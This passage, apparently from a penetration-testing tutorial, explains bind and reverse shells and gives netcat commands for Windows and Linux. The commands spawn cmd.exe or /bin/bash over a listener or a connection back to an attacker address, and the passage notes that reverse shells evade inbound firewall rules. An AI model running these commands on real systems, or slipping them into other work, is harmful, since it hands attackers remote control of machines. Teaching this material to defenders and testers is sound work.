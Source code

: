 ```powershell
# On target (Windows)
nc.exe -nvlp 1234 -e cmd.exe

# On attacker
nc -nv <target_ip> 1234
```

* Example (Linux target):

```bash
# On target
nc -nvlp 1234 -c /bin/bash   # some nc use -c for exec
# On attacker
nc -nv <target_ip> 1234
```

**Pros:** simple if target allows inbound.
**Cons:** target exposing a listener can be noticed/blocked; firewall may block incoming to target.

Display bind-shell diagram:
![Bind Shell](https://drive.google.com/uc?export=view\&id=1n5OReBFxDCIKaHr2fE3jMjyoq7uwpl27)

---

## Reverse shell

* The target **connects back to attacker** (attacker listens).
* Often preferred because many networks block inbound but allow outbound (eg. HTTP/HTTPS) traffic.

Example (target connects back to attacker and executes cmd on Windows):

```powershell
# Attacker (listener)
nc -nvlp 1234

# Target (initiate reverse)
nc.exe -nv <attacker_ip> 1234 -e cmd.exe
```

Example (Linux reverse):

```bash
# Attacker
nc -nvlp 1234

# Target
nc -nv <attacker_ip> 1234 -e /bin/bash   # or: -c /bin/bash depending on build
```

Display reverse-shell diagram:
![Reverse Shell](https://drive.google.com/uc?export=view\&id=1OuZ_zs7rf-6uO0wnKUgZnUsJ_4YUamag)

**Pros:** often bypasses firewall rules that block inbound connections.
**Cons:** target must be able to reach attacker; attacker IP may be visible in logs.

---